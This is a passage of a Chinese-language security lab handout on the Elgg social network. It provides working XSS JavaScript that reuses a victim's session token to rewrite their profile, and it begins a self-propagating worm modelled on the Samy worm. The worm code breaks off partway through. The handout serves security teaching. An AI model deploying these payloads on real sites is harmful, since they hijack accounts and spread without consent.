 请将samy作为攻击者，至少成为其他两个用户的朋友，并将你观察的结果截图贴到报告中。

## 任务5：修改受害者的个人资料

本任务的目标是在受害者访问 Samy 的页面时修改其个人资料。具体来说，就是要修改受害者的“About me”字段。我们将编写一个跨站脚本（XSS）蠕虫病毒来完成此任务。这种蠕虫病毒不会自我传播；在任务6中，我们将使其具有自我传播能力。

与之前的任务类似，我们需要编写一个恶意的 JavaScript 程序，该程序能够直接从受害者的浏览器中伪造 HTTP 请求，而无需攻击者的干预。为了修改个人资料，我们首先应该了解合法用户在 Elgg 中如何编辑或修改其个人资料。更具体地说，我们需要弄清楚如何构建 HTTP POST 请求来修改用户的个人资料。我们将使用 Firefox 的HTTP 开发者工具查看一条修改个人信息的请求信息。一旦我们了解了修改个人资料的 HTTP POST 请求是什么样的，我们就可以编写一个 JavaScript 程序来发送相同的 HTTP 请求。我们已经提供完整的代码，以帮助完成任务，但是你需要找到对应的 id 和将你的学号替换到其中，并仔细阅读代码，思考下 ts 和 token这两个字段的功能。

```
<script type="text/javascript">
    window.onload = function(){
        var userName=elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        var content= token + ts + "name=" + userName + "&description=<p>This had been changed by 你的学号 XSS attack.</p> &accesslevel[description]=2" + guid;
        var sendurl = "http://www.seed-server.com/action/profile/edit"
        var samyGuid=56;
        if(elgg.session.user.guid!=samyGuid)
        {
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST",sendurl,true);
            Ajax.setRequestHeader("Host","www.seed-server.com");
            Ajax.setRequestHeader("Content-Type",
            "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
	}
</script>
```

与任务4类似，上述代码应放置在 Samy 个人资料页面的“About me”字段中，并且在输入上述 JavaScript 代码之前，应启用文本模式。

请将samy作为攻击者，至少修改其他一个用户的信息，并将你观察的结果截图贴到报告中，在报告中你还需要描述这两个任务中用到的 ts 和 token 这两个字段的功能。


## 任务6：编写自我传播的跨站脚本蠕虫病毒（XSS Worm）

为了成为一个真正的蠕虫病毒，恶意的JavaScript程序应该能够自我传播。也就是说，每当有人查看被感染的个人资料时，不仅他们的个人资料会被修改，蠕虫病毒也会传播到他们的个人资料中，进一步影响查看这些新感染的个人资料的其他人。通过这种方式，查看被感染个人资料的人越多，蠕虫病毒传播的速度就越快。这正是Samy蠕虫病毒所使用的机制：在2005年10月4日发布后的仅仅20小时内，就有超过100万用户受到影响，使Samy成为有史以来传播速度最快的病毒之一。能够实现这一点的JavaScript代码被称为自传播的跨站脚本蠕虫病毒。在这个任务中，你需要实现这样一个蠕虫病毒，它不仅修改受害者的个人资料并添加用户“Samy”为好友，而且将蠕虫病毒本身的副本添加到受害者的个人资料中，这样受害者就变成了攻击者。

为了实现自我传播，当恶意的JavaScript修改受害者的个人资料时，它应该将自己复制到受害者的个人资料中。有几种方法可以实现这一点，我们将讨论两种常见的方法。

本次实验我们用 DOM 的方法实现攻击，如果整个JavaScript程序（即蠕虫病毒）嵌入在被感染的个人资料中，为了将蠕虫病毒传播到另一个个人资料，蠕虫病毒代码可以使用DOM API从网页中检索其自身的副本。下面给出了使用DOM API的示例。此代码获取其自身的副本，并在警告窗口中显示它：

```
<script id="worm" type="text/javascript">
    window.onload = function(){
        var headerTag = "<script id=\'worm\' type=\'text/javascript\'>";
        var jsCode = document.getElementById("worm").innerHTML;
        var tailTag = "</" + "script>"; 
        var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
        var userName=elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        var content= token + ts + "&name=" + userName + "&description=<p>Hacked by 你的学号 XSS WORM !!!"+ wormCode + "</p> &accesslevel[description]=2" + guid;
```